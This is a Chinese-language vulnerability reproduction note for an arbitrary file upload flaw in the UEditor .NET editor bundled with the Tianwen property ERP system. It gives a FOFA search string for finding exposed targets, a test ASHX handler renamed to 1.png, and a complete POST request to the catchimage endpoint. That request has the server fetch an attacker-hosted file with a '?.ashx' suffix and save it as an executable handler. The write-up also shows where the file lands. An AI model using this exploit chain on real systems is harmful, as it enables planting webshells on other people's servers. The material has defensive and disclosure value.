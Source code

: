 # 天问物业ERP系统UEditor编辑器存在前台任意文件上传漏洞

# 一、漏洞简介
天问物业ERP系统使用了UEditor编辑器，Ueditor是百度开发的一个网站编辑器，目前已经不对其进行后续开发和更新，该漏洞只存在于该编辑器的.net版本。其他的php,jsp,asp版本不受此UEditor的漏洞的影响，.net存在任意文件上传，绕过文件格式的限制，在获取远程资源的时候并没有对远程文件的格式进行严格的过滤与判断。

# 二、影响版本
+ 天问物业ERP系统

# 三、资产测绘
+ fofa`body="国家版权局软著登字第1205328号"`
+ 登录页面

![1693186922915-1f51f82b-7763-45ed-a0a0-77d42bbe6c25.png](./img/K_9Hxjp7rVHtd8qW/1693186922915-1f51f82b-7763-45ed-a0a0-77d42bbe6c25-559103.png)

# 四、漏洞复现
1. 新建文件，内容为webshell，文件命令为`1.png`

```plain
<% @ webhandler language="C#" class="AverageHandler" %> 

using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
public bool IsReusable 
{ get { return true; } } 
public void ProcessRequest(HttpContext ctx) 
{ 
ctx.Response.Write("hello"); 
} 
}
```

![1699459699279-92ff0e65-bd41-4ccd-ab54-94d03f956434.png](./img/K_9Hxjp7rVHtd8qW/1699459699279-92ff0e65-bd41-4ccd-ab54-94d03f956434-141843.png)

2. 将`1.png`传到vpn上，使用python起个http服务

```plain
python3 -m http.server 50000
```

![1699459777311-e5d1732e-d61d-48a9-899e-b7a851536905.png](./img/K_9Hxjp7rVHtd8qW/1699459777311-e5d1732e-d61d-48a9-899e-b7a851536905-810103.png)

4. 替换`source[]`为webshell文件地址，通过exp上传文件

```plain
POST /HM/M_main/Jscript-Ui/UEditor/net/controller.ashx?action=catchimage HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: null
Connection: close
Cookie: ASP.NET_SessionId=mzare1hg1ewzaxhakacjhfo0
Upgrade-Insecure-Requests: 1

source[]=http://xx.xx.xx.xx:50000/1.png?.ashx
```

![1699459840110-a48401c5-7f95-44c7-b8d7-c03b791f76f2.png](./img/K_9Hxjp7rVHtd8qW/1699459840110-a48401c5-7f95-44c7-b8d7-c03b791f76f2-870382.png)

5. 上传文件位置

```plain
/HM/M_main/Jscript-Ui/UEditor/net/upload/image/20231109/6383508541150163493063174.ashx
```

![1699459950239-dc62eae6-3df6-4fdb-b1eb-4da0f525b4dd.png](./img/K_9Hxjp7rVHtd8qW/1699459950239-dc62eae6-3df6-4fdb-b1eb-4da0f525b4dd-177142.png)



> 更新: 2024-03-03 20:04:36  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ytzd6rysuc9t66vs>